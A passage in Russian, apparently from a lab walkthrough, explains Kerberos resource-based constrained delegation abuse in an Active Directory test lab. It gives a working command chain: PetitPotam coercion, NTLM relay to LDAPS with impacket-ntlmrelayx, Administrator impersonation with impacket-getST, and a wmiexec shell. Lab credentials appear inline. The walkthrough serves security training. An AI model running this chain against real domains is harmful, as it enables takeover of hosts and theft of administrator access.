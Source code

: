 При делегировании Kerberos на основе ресурсов компьютеры (ресурсы) указывают, кому они доверяют и кто может делегировать им аутентификацию. Учетные записи, которым доверяют компьютеры, указаны в атрибуте msDS-AllowedToActOnBehalfOfOtherIdentity. Если атакующий добавит в этот атрибут имя скомпрометированного компьютера (или любого компьютера, от имени которого он может пройти аутентификацию), то он сможет притвориться для целевого хоста кем угодно — например, администратором.

Злоумышленник может заставить аутентифицироваться сервер braavos.essos.local (192.168.56.23) на своем хосте и перенаправить аутентификацию на протокол LDAPS контроллера домена meereen.essos.local для создания машинной учетной записи, которой будет доверять braavos.

```
impacket-ntlmrelayx -t ldaps://192.168.56.12 --remove-mic --delegate-access
python /home/kali/PetitPotam/PetitPotam.py -u 'arya.stark' -p 'Needle' -d north.sevenkingdoms.local 192.168.56.200 192.168.56.23
```

![](/images/coerce/Pasted%20image%2020250106115607.png)

Проверяем права

```
impacket-findDelegation 'north.sevenkingdoms.local/arya.stark:Needle' -target-domain essos.local
```

![](/images/coerce/Pasted%20image%2020250106115932.png)

Имперсонируем пользователя Administrator braavos.essos.local и получаем от его имени доступ к службе cifs на машине braavos.essos.local.

```
impacket-getST -spn 'cifs/BRAAVOS' -impersonate Administrator -dc-ip 192.168.56.12 'essos.local/YZPSBKXC$:2@}ZRuUks.X6MNA'
export KRB5CCNAME=Administrator@cifs_BRAAVOS@ESSOS.LOCAL.ccache
impacket-wmiexec -k -no-pass Administrator@BRAAVOS
```
